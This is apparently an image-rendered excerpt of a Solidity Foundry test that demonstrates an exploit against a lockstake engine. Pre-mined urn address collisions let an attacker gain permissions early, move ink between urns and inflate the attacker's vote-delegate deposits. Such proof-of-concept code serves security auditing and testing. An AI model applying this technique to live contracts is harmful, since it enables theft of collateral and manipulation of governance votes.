 ```solidity
            // Select attackerVD from urn2, move ink to eoaUrn1
            engine.selectVoteDelegate(eoaUrn2, attackersVD);
            dss.vat.fork(ilk, eoaUrn2, eoaUrn, int(mkrAmount), 0);
            engine.selectVoteDelegate(eoaUrn2, address(0));
            _assertEqInk({inkUrn1: mkrAmount, inkUrn2: 0});

            console.log("attackersVD balance: %e", ChiefLike(chief).deposits(attackersVD));
        }

        assertEq(mkrAmount * 10, ChiefLike(chief).deposits(attackersVD));
    }

    function _assertEqInk(uint inkUrn1, uint inkUrn2) internal view {
        (uint256 inkUrn1Real,) = dss.vat.urns(ilk, eoaUrn);
        (uint256 inkUrn2Real,) = dss.vat.urns(ilk, eoaUrn2);

        assertEq(inkUrn1Real, inkUrn1);
        assertEq(inkUrn2Real, inkUrn2);
    }

    function _prepareSecondUrnCollision() public {
        // Same as in setUp but for another urn
        eoaUrn2 = engine.getUrn(minedUrnCreator2, 0);
        
        // Give permissions from EOA, the urn is not created yet
        vm.prank(eoaUrn2); dss.vat.hope(attacker);
        vm.prank(eoaUrn2); lsmkr.approve(attacker, type(uint).max);

        // Create the urn; can't use EOA after that as per EIP-3607
        vm.prank(minedUrnCreator2); engine.open(0);
        vm.prank(minedUrnCreator2); engine.hope(eoaUrn2, attacker);
    }

    function _testSelectDelegate(bool expectRevert) internal {
        for (uint i; i < users.length; i++) {
            uint sId = vm.snapshot();

            address user = users[i];
            address urn = engine.getUrn(user, 0);

            if (expectRevert) {
                vm.expectRevert(bytes("Test"));
            }

            vm.prank(user); engine.selectVoteDelegate(urn, voteDelegate2);

            vm.revertTo(sId);
        }
    }

    function _sendOneInkFromEoaUrn(address user) internal {
        address urn = engine.getUrn(user, 0);
        vm.prank(attacker); dss.vat.frob(ilk, urn, eoaUrn, address(0), 1, 0);
    }

    function _testLiquidateUsingDog(address user, string memory revertMsg, bool useSnapshots) internal {
        uint sId;
        if (useSnapshots) sId = vm.snapshot();

        bool expectRevert = bytes(revertMsg).length > 0;
        address urn = engine.getUrn(user, 0);

```